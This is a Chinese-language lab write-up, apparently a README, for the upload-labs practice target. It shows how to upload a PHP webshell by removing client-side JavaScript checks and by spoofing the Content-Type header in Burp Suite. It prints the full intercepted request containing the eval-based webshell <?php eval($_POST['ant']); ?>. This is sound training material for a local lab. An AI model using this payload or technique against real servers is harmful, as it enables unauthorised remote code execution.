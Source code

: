 # 攻击靶场练习

## 准备工作

靶场源代码

- [upload-labs](https://github.com/c0ny1/upload-labs) 可利用docker 跑起来

抓包工具
- [Burp Suite 社区版本](https://portswigger.net/burp/communitydownload) 社区版本即可

中国蚁剑
- [antSword](https://github.com/AntSwordProject/antSword)
- [使用文档](https://www.yuque.com/antswordproject/antsword/ff5pl5)


## 练习

### 第一题：上传一个webshell到服务器。
限制： 这个题目只有在前端控制了是否能上传 （该文件不允许上传，请上传.jpg|.png|.gif类型的文件,当前文件类型为：.php）
破解： 移除js的控制（换句话来说，去掉javascript使用）可上传

```js
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```


### 第二题：后端限制了上传类型

```js
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

可利用burp suit抓包工具 抓到该请求，然后修改context-type 重新发送请求

```md
POST /Pass-02/index.php HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7445055365470728562651083717
Content-Length: 367
Origin: http://localhost:8000
Connection: close
Referer: http://localhost:8000/Pass-02/index.php
Cookie: _horizon_uid=d0e649d9-848b-4d52-be8e-92c947add7b2; ts_uid=1096465488
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------7445055365470728562651083717
Content-Disposition: form-data; name="upload_file"; filename="ant.php"
Content-Type: image/gif (此处为修改位置)

<?php eval($_POST['ant']); ?>

-----------------------------7445055365470728562651083717
Content-Disposition: form-data; name="submit"

上传
-----------------------------7445055365470728562651083717--
```



[upload-libs 参考答案](https://cloud.tencent.com/developer/article/1906120)